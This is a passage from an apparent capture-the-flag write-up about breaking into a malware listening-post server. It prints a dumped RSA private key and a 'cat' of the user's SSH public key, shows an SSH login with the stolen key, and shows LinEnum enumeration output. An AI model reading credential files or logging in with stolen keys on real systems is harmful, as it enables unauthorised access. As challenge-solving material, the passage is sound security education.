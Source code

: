 ```
iWwE8kECgYEAyx3JhjWrEZtIJc4RWFUvWw2eH29lv33bmL6CNDR9PYoijINF/shy
EYbi8cehSX4qRgFujBfdg+XyWyu8+LS9+onZvB54euD/Eu2UAJn339Ee5Jgp/eEB
FEK7h6C34qpwygUSNJr0e+89i0SmB6Y2+WuSnZzZ2avQOuioiUMVBLUCgYEAxvmt
49OishA//fnJZ3lkzFPfKAZit58RpPWf+sOYM8cXZA5K8KKkK771l8ykd20zcMZ4
bHMJfyRx3K/DcWd/hGcFMFcmsd6eYX2UlRVg1K1DLqBx1ftGfj50JSx1fPi5MmkH
MOliOEJm9ab/pz5shEjpWsznIaqJtRx3t6feMGMCgYA2Y5KMEqDtRQRrwyNX4O+e
VSYrSrwXK896tkDNU+TZbrzTnW9Hy0roMJNipM8mi9csCcQdVWKmqBNeoHaorlVU
2kboncwrM0Z6Pg3sn04Fq8y275wG9JJCZ6ApsDqtQnCTWApI9dlTuntjaI2A7Nw5
q7mF5PNc2yoWLCi9IK5nJQKBgH/s0L60N1rSFcJdEP8EziiMF+Is0NULYRW0kalw
jW9kpgY/JjE17+TsPgvdlzPtMnBkOdJH16g1rzraigZkK1jdvzlIHummnh9B1QBQ
oVO7HYFhyC5yAe1yi8vGnLa/Vpoxal0o/2v6TSXMu3s0KCKYmec167f6Y9TcO6AJ
PlHPAoGBAKHi+baxCZLexQq1LL0dp5eZRk7qpJvylMaRe+mXwKZJ3KMQ49huttci
mNM6wMcsa9eawdtE9ClKUovYa5/NmmsrK47+5a/R9QW1sVZEJIbl2k+rxYvDtUGR
fLdkJ5ROK4BxXjONmRzwC/UGhPX8Z7jAmN167bv/xTVOCy0fm5jA
-----END RSA PRIVATE KEY-----

> cat /home/lpuser/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCd3yPOtZCKgytYrUnC+ldOBL+BjvEIXkAOPwRr4WZJW0/NO7K3P9ZGO7GS2NU404MV91y8zjYV04Rzie+RsrP5YZEOZv4kkJffSxrExAe8vrxLB0tSkD9TugWFNviiWDd3E6knh+ymoLv97sn+uH9UsN00g3QNpZz3c24/Jq2C+gPbrT9mMdoSSK2U7hJ3nUzsoFhNBZlaR4MBB2n02d7oRYLGwSur3taqf4nKeY7NOJGC+952LzygC19Erjj5/ncFy33xnMobTsIGTKQXdfEfUn0xvCE2Eoz0MY7EKjd41muJ7U30089Xpo9nckX/VKGqEitibDOKEU9gTFgJ+MH/ root@ip-10-115-54-51
```

Now we can SSH into the LP as `lpuser` without being limited to the malware commands. The keys can be copied into files `id_rsa` and `id_rsa.pub` and then used like this:

```
$ ssh -i id_rsa lpuser@<LP IP> 
```

We're in! Now we have to find out where `psuser` is sending data. One tool I like to use when first getting on a box is [LinEnum](https://github.com/rebootuser/LinEnum), a Linux Enumeration script. It checks a bunch of things like file permissions, users, processes, etc. and then generates a report with the results. The full output can be found in [linenum.out](linenum.out). Important findings are listed here:

```
[-] Current user/group info:
uid=1003(lpuser) gid=1003(lpuser) groups=1003(lpuser)

[-] Jobs held by all users:
...
@reboot /home/lpuser/lp/runLp.sh >> /home/lpuser/lp/lp.log 2>&1

[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...
lpuser     850  0.0  0.0   4632   768 ?        Ss   13:04   0:00 /bin/sh -c /home/lpuser/lp/runLp.sh >> /home/lpuser/lp/lp.log 2>&1
psuser     851  0.0  0.0   4632   760 ?        Ss   13:04   0:00 /bin/sh -c /home/psuser/runPs.sh >> /home/psuser/pslp.log 2>&1
psuser     853  0.0  0.2  13316  2172 ?        S    13:04   0:00 /bin/bash /home/psuser/runPs.sh
lpuser     854  0.0  0.2  13316  2176 ?        S    13:04   0:00 /bin/bash /home/lpuser/lp/runLp.sh
...
psuser    2219  0.0  0.0   1240   644 ?        S    13:05   0:00 ./powershell_lp

[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6666            0.0.0.0:*               LISTEN      2220/python3
tcp6       0      0 :::22                   :::*                    LISTEN      -
```